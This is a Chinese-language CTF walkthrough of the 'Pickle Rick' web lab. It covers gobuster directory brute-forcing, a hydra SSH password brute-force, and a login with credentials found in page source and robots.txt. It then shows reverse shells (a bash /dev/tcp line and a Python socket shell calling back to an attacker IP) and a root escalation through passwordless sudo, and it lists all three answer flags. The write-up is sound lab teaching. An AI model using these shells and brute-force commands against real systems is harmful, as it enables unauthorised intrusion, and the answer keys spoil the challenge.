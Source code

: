 ```yaml
---
title: Web-Pickle-Rick
createTime: 2024/11/16 19:34:46
permalink: /penetration/qe5zotup/
---
```

![](assets/web-pickle-rick/file-20241023102615.png)

# Pickle-Rick: 一个完整的挑战
这是一个CTF靶场，这个挑战需要你扮演Morty在目标主机上找到**三种成分（ingredients）** 帮助Rick
从白菜**变回人类**。

- 挑战前需要通过访问Web开始。
- 找到三种`ingredients`
## 此挑战需要回答以下问题

::: details **Task-1** 药剂的第一种成分是什么？
答案：`mr. meeseek hair`
:::
::: details **Task-2** 药剂的第二种成分是什么？
答案：`1 jerry tear`
:::
::: details **Task-3** 药剂的最后一种成分是什么？
答案：`fleeb juice`
:::

## 解题思路总结

![](assets/web-pickle-rick/file-20241024212525.png)
## 详细过程

![](assets/web-pickle-rick/file-20241023104524.png)

信息收集是渗透测试中的重要环节，我们渗透测试过程中要注意不要错误任何细节。
### 登陆web首页

登陆首页后，没有没有发现啥有用的信息，但是通过查看网页源码发现一个用户名：

![](assets/web-pickle-rick/file-20241024214839.png)

除此之外没有发现任何信息。

### 目录爆破

目录爆破是对任何web应用渗透的必须做的工作，这可以帮助你发现整个网站的路径和隐藏的文件，我在此做了多次爆破，以便收集到尽可能有用的信息：

- 目录爆破：

::: tabs
@tab  SecLists
```bash 
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```

@tab dirbuser-list
```bash
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
:::

- 文件爆破：
::: tabs
@tab SecLists
```bash
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x x php,txt,zip,html,bak
```
@tab dirbuser-list
```bash
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html,bak
```
:::

>[!TIP] 注意⚠️
>
>如果在此没得到什么有用的信息，可能是你的字典选择错误，选对字典对我们获取有用的信息非常重要。我渗透的时候因为选错字典走了弯路。

**目录爆破结果**

目录爆破结果，因首先关注状态码为`200`的，其次关注状态码为`300` 的

```text hl(5-8)
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```
### 端口扫描

通过`nmap`端口扫描，发现此主机开启了TCP`80`、`22`端口，尝试爆破22端口，**未成功**。

```bash
hydra -l R1ckRul3s -P /usr/share//usr/share/wordlists
/rockyou.txt  ssh://10.10.204.241
```

>[!NOTE]
>之所以在此尝试爆破`ssh`密码,是因为我在目录爆破时选错字典，导致未发现有用信息😭。但是一般情况，爆破`ssh` 密码很难做到不是第一选择。

### 登陆Web应用

回到目录爆破结果，
```text hl{5-8} 
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```

我们首先关注`login.php` 因为这一般是登陆界面：

![](assets/web-pickle-rick/file-20241024222954.png)


其次我们关注`/robots.txt`在`/robots`中发现了一串字符串 `Wubbalubbadubdub`**（“robots.txt”文件通常包含Web开发人员不希望搜索引擎找到和显示的目录）,**

到现在我们已知了用户密码，也找到了登陆界面，因此我们应该尝试登陆：
- 用户名：`R1ckRul3s`
- 密码：`Wubbalubbadubdub`
输入勇猛密码后我们来到了`Command Panel` 命令行页面：
![](assets/web-pickle-rick/file-20241023120401.png)


### 尝试执行命令并获取第一种成分

在命令航执行命令：
```bash
whoami && pwd && ls
```

我们知道当前用户是`www-data`,当前路径是`/var/www/html`还可以发现一些目录爆破没有发现的文件：
![](assets/web-pickle-rick/file-20241023120724.png)

我们尝试访问这些文件，可以发现一些提示，最终在文件命最长的文件中找到第一种成分。
![](assets/web-pickle-rick/file-20241023123436.png)

![](assets/web-pickle-rick/file-20241023123742.png)
### 尝试进行shell反弹

既然可以在web上执行命令，那就可以尝试进行shell 反弹，通过终端远程连接到主机，尝试 执`nc`，界面无反应，尝试执行`python python --version` 有反应。再此我们可以选择两种方式（除nc外）进行反弹：

:::tabs
@tab bash
```bash
bash -C 'bash -i >& /dev/tcp/**Local-IP**/443 0>&1 '
```
@tab python
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```
:::

>[!IMPORTANT] Localhost
>本地主机一定要监听与上面命令内容一致的端口，在此监听的是`443`
>`nc -nvlp 443`
>

### 获取第二种成分

成功连接终端后，我们可以执行`cd`命令跳转到`/home`下，或直接执行`ls /home`  命令，在此会发现在`rick`用户目录。跳转到该目录下，会发现`second  ingredients` 文件，使用`cat`命令查看此文件会发现第二种成分。

```bash
cat /home/rick/second\ ingredients # or  cat /home/rick/‘second ingredients‘

1 jerry tear
```

### 提权并获得第三种成分

目前已获取到两种成分，只要获取到剩下的最后一种成分，就可以答完提名，目前我们可以从整个答题过程感受到，这是一个逐渐突破边界，并获取更高权限的过程，因此我们接下来应该获取到`root`权限。

要获取`root`权限，我们通常要不断尝试才可能成功，在这里我从最好用最常见的开始尝试，直接查看当前用户的`sudo`权限配置:

```bash
sudo -l
```

发现此用户执行`sudo` 不需要密码，因此可以直接通过`sudo`命令提权：

![](assets/web-pickle-rick/file-20241024231405.png)

::: tabs
@tab 命令1
```bash 
sudo bash -p  
```
@tab 命令2
```bash
sudo bash 
```

:::

到此，我们通过`whoami` 命令查看，可知我们目前已获取到`root`权限，让我们跳转到`/root`下，找到`3rd.txt`文件，`cat` 命令查看该文件，获取第三种成分：`fleeb juice`
![](assets/web-pickle-rick/file-20241024231619.png)


## 总结

通过本次挑战复习了以下知识点和技能：
- 渗透测试的思维方式
- gobuser 目录爆破仅能
- 目标主机无`nc`情况下的shell反弹
- linux提权
- `robots.txt` 目录的做用








